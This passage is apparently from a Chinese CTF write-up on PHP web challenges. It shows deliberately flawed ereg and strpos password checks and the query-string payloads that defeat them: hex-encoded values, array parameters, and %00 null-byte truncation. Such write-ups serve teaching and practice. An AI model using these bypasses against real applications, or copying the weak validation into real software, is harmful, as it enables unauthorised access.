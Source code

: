 php转码把16进制转化为10进制
3735929054转换成16进制为0xdeadc0de，记得带上0x；
payload:?password=0xdeadc0de

### ereg正则%00绕过
源码
```
<?php
$flag = "xxx";
if (isset ($_GET['password']))
{
if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)
{
echo 'You password must be alphanumeric';
}
else if (strlen($_GET['password']) < 8 && $_GET['password'] > 9999999)
{
if (strpos ($_GET['password'], '-') !== FALSE) //strpos — 查找字符串首次出现的位置
{
die('Flag: ' . $flag);
}
else
{
echo('- have not been found');
}
}
else
{
echo 'Invalid password';
}
}
?>
```
ereg()的正则限限制了多个数字或者大小写字母
strpos()则是查找'-'
1.数组绕过
    payload:?password[]=1
2.%00截断绕过
    payload:?password=1e9%00*-*
### strpos数组绕过
源码
```
<?php
$flag = "flag";
if (isset ($_GET['ctf'])) {
if (@ereg ("^[1-9]+$", $_GET['ctf']) === FALSE)
echo '必须输入数字才行';
else if (strpos ($_GET['ctf'], '#biubiubiu') !== FALSE)
die('Flag: '.$flag);
else
echo '骚年，继续努力吧啊~';
}
?>
```
题目说了数组绕过，直接构造payload
payload:?ctf[]=1
